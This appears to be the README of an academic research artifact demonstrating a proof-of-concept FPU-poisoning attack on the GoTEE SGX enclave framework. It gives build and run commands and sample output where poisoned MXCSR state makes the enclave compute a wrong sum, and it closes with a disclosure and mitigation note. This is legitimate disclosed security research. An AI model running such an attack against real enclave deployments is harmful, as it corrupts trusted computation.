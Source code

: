 # Proof of concept attack on GoTEE

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/7)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

## Install GoTEE

```bash
$ sudo apt-get -yqq install golang
$ cd gotee-fpu
$ go get github.com/aghosn/serializer
$ PATH=$PATH:$HOME/go/bin
$ sudo make
```

**Note (Artifact).** This step was already executed on the lab machine for the ACSAC '20 artifact submission.

## Build and run example attack enclave

We provide a hello-world sample that executes a print from both the untrusted and trusted domains.

Example output showcasing an example run with and without FPU poisoning in an
untrusted domain and enclave, respectively. Notice the faulty result for
`VADDPD` when poisoning the denormals-as-zero MXCSR flag:

```
$ PATH=$PATH:$HOME/go/bin
$ cd example/hello-world/
$ make
$ SIM=1 ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
[DEBUG] loading the program in simulation.
Cooprt at 0xc4200aa120
Cooprt.Ecall 0xc420080150, Cooprt.Ocall 0xc4200801c0
Unsafe allocation: 7fb2607cd000, size: 1f4000
[DEBUG-INFO] wrapper at 0xc4200c7880
{base: 40000000000, siz: 1000000000, mhstart: 400001ae000, mhsize: 7ffffff}
stack: 4000016f000, ssiz: 8000, tcs: 40000178000, msgx: 40000150000, tls: 40000151000
stack: 4000017f000, ssiz: 8000, tcs: 40000188000, msgx: 40000152000, tls: 40000153000
stack: 4000018f000, ssiz: 8000, tcs: 40000198000, msgx: 40000154000, tls: 40000155000
stack: 4000019f000, ssiz: 8000, tcs: 400001a8000, msgx: 40000156000, tls: 40000157000
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fc0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fc0
```

Alternatively, to execute the example attack on real SGX hardware, simply proceed as follows:

```
$ ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fe0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fe0
```

## Disclosure and mitigation

We reported this issue to the GoTEE developers in <https://github.com/epfl-dcsl/gotee/issues/3>. The issue will be mitigated with a full `xrstor` on enclave entry.
